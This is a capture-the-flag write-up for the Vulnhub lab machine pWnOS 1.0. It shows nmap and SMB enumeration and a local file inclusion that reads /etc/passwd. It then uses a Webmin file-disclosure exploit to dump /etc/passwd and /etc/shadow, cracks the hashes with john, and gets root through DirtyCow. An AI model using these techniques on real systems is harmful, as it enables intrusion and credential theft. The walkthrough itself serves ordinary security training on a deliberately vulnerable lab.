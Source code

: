```yaml
---
layout: post
title:  "pWnOS: 1.0"
date:   2021-1-21  +0400
categories: vulnhub pwnos1
description: "This is the first machine of the pWnOS series. This machine is ranked as easy, but took loads of effort to pwn. Hope you enjoy it!"
---
```


<span style="text-decoration: underline">Box Stats:</span>

| Name: | pWnOS: 1.0 |
|-------|--------|
| Series: | [pWnOS](https://www.vulnhub.com/series/pwnos,3/) |
| Link: | (https://www.vulnhub.com/entry/pwnos-10,33/) |
| OS: | Ubuntu 2.6.32 |
| Creator: | (https://www.vulnhub.com/author/pwnos,6/) |


## Topics: ##
- LFI
- PHP enumeration
- Hash Cracking
- Privilige Escalation

## Recon ##
Start your scans and gather your results!
```
22/tcp    open  ssh         OpenSSH 4.6p1 Debian 5build1 (protocol 2.0)
| ssh-hostkey: 
|   1024 e4:46:40:bf:e6:29:ac:c6:00:e2:b2:a3:e1:50:90:3c (DSA)
|_  2048 10:cc:35:45:8e:f2:7a:a1:cc:db:a0:e8:bf:c7:73:3d (RSA)
80/tcp    open  http        Apache httpd 2.2.4 ((Ubuntu) PHP/5.2.3-1ubuntu6)
|_http-server-header: Apache/2.2.4 (Ubuntu) PHP/5.2.3-1ubuntu6
|_http-title: Site doesn't have a title (text/html).
139/tcp   open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: MSHOME)
445/tcp   open  netbios-ssn Samba smbd 3.0.26a (workgroup: MSHOME)
10000/tcp open  http        MiniServ 0.01 (Webmin httpd)
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: -59m54s, deviation: 4h14m34s, median: -3h59m55s
|_nbstat: NetBIOS name: UBUNTUVM, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery: 
|   OS: Unix (Samba 3.0.26a)
|   Computer name: ubuntuvm
|   NetBIOS computer name: 
|   Domain name: nsdlab
|   FQDN: ubuntuvm.NSDLAB
|_  System time: 2021-01-11T11:16:24-06:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smb2-time: Protocol negotiation failed (SMB2)
```

## Enumeration ##
We have a couple of ports open that are interesting and can be the potential way inside the machine. We know that `SSH` can be used as a stable connection, so I am guessing there will not be any misconfigurations with that protocol. 

# Port 80 - HTTP ## 
When browsing to the webpage at the IP address, we are greeted with a `pWnOS homepage`. We can click the next button which navigates us to a page that allows us to enter our name and choose our skill. By clicking the `Please Help!` button, we get trolled by the webpage telling us that we suck.

I was unaware of an LFI in this page, however once I deleted the end of the url which was `name=&submit=Please+Help%21` a php error was displayed: ` Warning: include() [function.include]: Failed opening '' for inclusion (include_path='.:/usr/share/php:/usr/share/pear') in /var/www/index1.php on line 18`. From here, we can use the `connect` function and set it to `/etc/passwd` for the LFI. This displays the `/etc/passwd` file:

![/etc/passwd from LFI]()

# Port 139+445 - SMB #
Nothing interesting was found in the file share. The shares were:
```
	Sharename       Type      Comment
	---------       ----      -------
	home            Disk      Home Directory for vmware User
	print$          Disk      Printer Drivers
	IPC$            IPC       IPC Service (ubuntuvm)
```

The `print$, IPC4$` shares had no valuable info, but the `home` share allowed us to view the `vmware` users files. I don't want to spoil the machine, so I will finish enumerating this protocol.

# Port 10000 - Webmin HTTP #
When browsing to the url `http://________:10000/` we are redirected to `/session_login.cgi`. When I first tried enumerating the login field, after a number of tries, I was blocked from the server. After restarting the machine, I started looking for exploits that relate to `Webmin 0.01`. I found an exploit with the CVE of `CVE-2006-3392` at [SecurityFocus](www.securityfocus.com) that can be found [here](http://www.securityfocus.com/bid/18744). It is luckily a metasploit module as well, which makes it easier for us to exploit. We can use it download files from the host (and we have root priviliges too!). I was able to download the `/etc/passwd` and `/etc/shadow` file:

`/etc/passwd` file:
```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
mail:x:8:8:mail:/var/mail:/bin/sh
news:x:9:9:news:/var/spool/news:/bin/sh
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:x:13:13:proxy:/bin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
backup:x:34:34:backup:/var/backups:/bin/sh
list:x:38:38:Mailing List Manager:/var/list:/bin/sh
irc:x:39:39:ircd:/var/run/ircd:/bin/sh
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
dhcp:x:100:101::/nonexistent:/bin/false
syslog:x:101:102::/home/syslog:/bin/false
klog:x:102:103::/home/klog:/bin/false
mysql:x:103:107:MySQL Server,,,:/var/lib/mysql:/bin/false
sshd:x:104:65534::/var/run/sshd:/usr/sbin/nologin
vmware:x:1000:1000:vmware,,,:/home/vmware:/bin/bash
obama:x:1001:1001::/home/obama:/bin/bash
osama:x:1002:1002::/home/osama:/bin/bash
yomama:x:1003:1003::/home/yomama:/bin/bash
```

`/etc/shadow` file:
```
root:$1$LKrO9Q3N$EBgJhPZFHiKXtK0QRqeSm/:14041:0:99999:7:::
daemon:*:14040:0:99999:7:::
bin:*:14040:0:99999:7:::
sys:*:14040:0:99999:7:::
sync:*:14040:0:99999:7:::
games:*:14040:0:99999:7:::
man:*:14040:0:99999:7:::
lp:*:14040:0:99999:7:::
mail:*:14040:0:99999:7:::
news:*:14040:0:99999:7:::
uucp:*:14040:0:99999:7:::
proxy:*:14040:0:99999:7:::
www-data:*:14040:0:99999:7:::
backup:*:14040:0:99999:7:::
list:*:14040:0:99999:7:::
irc:*:14040:0:99999:7:::
gnats:*:14040:0:99999:7:::
nobody:*:14040:0:99999:7:::
dhcp:!:14040:0:99999:7:::
syslog:!:14040:0:99999:7:::
klog:!:14040:0:99999:7:::
mysql:!:14040:0:99999:7:::
sshd:!:14040:0:99999:7:::
vmware:$1$7nwi9F/D$AkdCcO2UfsCOM0IC8BYBb/:14042:0:99999:7:::
obama:$1$hvDHcCfx$pj78hUduionhij9q9JrtA0:14041:0:99999:7:::
osama:$1$Kqiv9qBp$eJg2uGCrOHoXGq0h5ehwe.:14041:0:99999:7:::
yomama:$1$tI4FJ.kP$wgDmweY9SAzJZYqW76oDA.:14041:0:99999:7:::
```

We can use the `unshadow` tool to create a file with the combined data of the `/etc/passwd` and the `/etc/shadow` file to create one file with the usernames and password details. The usage is simple: `sudo unshadow PASSWORD-FILE SHADOW-FILE`. This will give us the output of:
```
root:$1$LKrO9Q3N$EBgJhPZFHiKXtK0QRqeSm/:0:0:root:/root:/bin/bash
daemon:*:1:1:daemon:/usr/sbin:/bin/sh
bin:*:2:2:bin:/bin:/bin/sh
sys:*:3:3:sys:/dev:/bin/sh
sync:*:4:65534:sync:/bin:/bin/sync
games:*:5:60:games:/usr/games:/bin/sh
man:*:6:12:man:/var/cache/man:/bin/sh
lp:*:7:7:lp:/var/spool/lpd:/bin/sh
mail:*:8:8:mail:/var/mail:/bin/sh
news:*:9:9:news:/var/spool/news:/bin/sh
uucp:*:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:*:13:13:proxy:/bin:/bin/sh
www-data:*:33:33:www-data:/var/www:/bin/sh
backup:*:34:34:backup:/var/backups:/bin/sh
list:*:38:38:Mailing List Manager:/var/list:/bin/sh
irc:*:39:39:ircd:/var/run/ircd:/bin/sh
gnats:*:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
nobody:*:65534:65534:nobody:/nonexistent:/bin/sh
dhcp:!:100:101::/nonexistent:/bin/false
syslog:!:101:102::/home/syslog:/bin/false
klog:!:102:103::/home/klog:/bin/false
mysql:!:103:107:MySQL Server,,,:/var/lib/mysql:/bin/false
sshd:!:104:65534::/var/run/sshd:/usr/sbin/nologin
vmware:$1$7nwi9F/D$AkdCcO2UfsCOM0IC8BYBb/:1000:1000:vmware,,,:/home/vmware:/bin/bash
obama:$1$hvDHcCfx$pj78hUduionhij9q9JrtA0:1001:1001::/home/obama:/bin/bash
osama:$1$Kqiv9qBp$eJg2uGCrOHoXGq0h5ehwe.:1002:1002::/home/osama:/bin/bash
yomama:$1$tI4FJ.kP$wgDmweY9SAzJZYqW76oDA.:1003:1003::/home/yomama:/bin/bash
```

## Exploitation ##
We can crack the hashes that we have gathered, I used `john` and the `rockyou.txt` wordlist to crack the hashes. I was able to find the `vmware` user's password which was `h4ckm3`. I used this to login via SSH, but this can also be used to login to the SMB server! From here, we can use the widely-known `DirtyCow` exploit which works on `Linux Kernel 2.6.22 < 3.9`. Compile the exploit using the `gcc -pthread dirty.c -o dirty -lcrypt` command. After following the prompt, the user `firefart` will be added with the password you chose:

```
$ su firefart
Password: password
$ id
uid=0(firefart) gid=0(root) groups=0(root)
```
We have pwned the machine! This machine was easy but took hard work to find LFIs and other issues. The webmin server also issues IP bans which made me restart the machine several times. Thank you for reading this writeup, and see you later! 
